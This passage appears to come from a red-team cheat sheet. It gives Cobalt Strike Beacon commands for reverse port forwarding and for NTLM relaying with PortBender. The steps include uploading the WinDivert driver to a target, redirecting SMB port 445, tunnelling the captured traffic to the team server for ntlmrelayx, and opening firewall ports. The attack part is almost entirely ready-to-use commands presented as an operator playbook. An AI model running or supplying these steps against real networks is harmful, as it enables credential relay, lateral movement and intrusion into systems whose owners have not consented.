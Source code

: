 #### Stop and remove firewall rule
```
powershell Remove-NetFirewallRule -DisplayName "Test Rule"

rportfwd stop <PORT>
```

#### Create port forward rportfwd_local
- Beacon also has a rportfwd_local command.  Whereas rportfwd will tunnel traffic to the Team Server, rportfwd_local will tunnel the traffic to the machine running the Cobalt Strike client.
- Does not require administrator privs
- If 127.0.0.1 doesn't work use teamserver IP
```
rportfwd_local <PORT> <IP> <PORT>
```
    
#### Stop port forward local
```
rportfwd_local stop <PORT>
```

### NTLMRelaying with cobalt strike
- https://github.com/praetorian-inc/PortBender
- Requires system privs

#### Place portbender driver on the target
```
cd C:\Windows\system32\drivers
upload WinDivert64.sys
```

#### Load portbender.cna
- Load `PortBender.cna` this adds a new PortBender command to the console in Cobalt strike -> Script Manager
- Breaks SMB service on the machine, also SMB Beacons. 
- Create the appropriate inbound firewall rules for 445 (file sharing is disabled by default), 8445, and 8080.
```
help PortBender
PortBender redirect 445 8445
```

#### Create port forward
- Create a reverse port forward that will then relay the traffic from port 8445 to port 445 on the Team Server (where ntlmrelayx will be waiting).
```
rportfwd 8445 127.0.0.1 445
```

#### Allow 8445 firewall
```
powershell New-NetFirewallRule -DisplayName "Test Rule" -Profile Domain -Direction Inbound -Action Allow -Protocol TCP -LocalPort 8445
```
